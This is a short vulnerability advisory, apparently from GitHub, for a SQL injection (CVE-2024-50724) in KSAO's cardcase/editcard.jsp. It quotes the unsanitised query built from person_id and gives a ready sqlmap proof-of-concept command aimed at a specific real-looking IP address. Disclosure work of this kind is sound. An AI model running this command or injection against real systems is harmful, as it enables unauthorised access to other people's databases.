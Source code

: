 # KSAO cardcase/editcard.jsp Sql Injection

CVE-ID: CVE-2024-50724

VERSION: v9.0

Exploit Author: hndky

Vulnerability Discovery Unit: 






Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql


![sql](https://github.com/user-attachments/assets/294134a2-6cda-4215-ad39-becef72da11f)




